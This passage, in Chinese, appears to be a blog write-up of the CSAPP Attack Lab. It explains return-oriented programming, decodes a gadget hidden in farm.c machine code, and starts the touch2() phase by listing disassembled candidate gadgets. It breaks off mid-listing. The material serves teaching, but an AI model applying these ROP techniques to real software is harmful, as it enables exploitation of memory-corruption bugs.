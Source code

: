 道高一尺魔高一丈，ROP 应运而生。

ROP 这种叫法很有趣，大概是在栈中连续放入一些工具(gadget)的地址，这样就能通过`ret`指令一路跳下去。给个生动形象的图：

![](/2022/12/16/CSAPP-Attack-Lab/image/rop.png)

gadget 一般源于二进制程序中已有的片段或者其链接的库。

举个例子，看看 lab 中`farm.c`的一个函数：

```c
void setval_210(unsigned *p) {
    *p = 3347663060U;
}
```

机器码：

```
400f15:    c7 07 d4 48 89 c7     # movl $0xc78948d4,(%rdi)
400f1b:    c3                    # retq
```

注意到里面有个序列`48 89 c7`，解码后刚好是汇编`movq %rax, %rdi`。这意味着我们找到了一个起始地址为`0x400f18`、指令为`movq %rax, %rdi`的 gadget。

在接下来的任务中，我们要从`farm.c`中找 gadget，并且放到栈中适当位置。

### 1. touch2()

这里同样要求我们触发`touch2()`并且传入正确的参数。我们对照 lab 任务书的指令编码表格，在反汇编后`farm.c`的前半部分中查找可能有用的 gadget(已经用注释标出来)：

```asm
000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq

; mov %rax, %rdi
; ret
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq

; popq %rax
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
```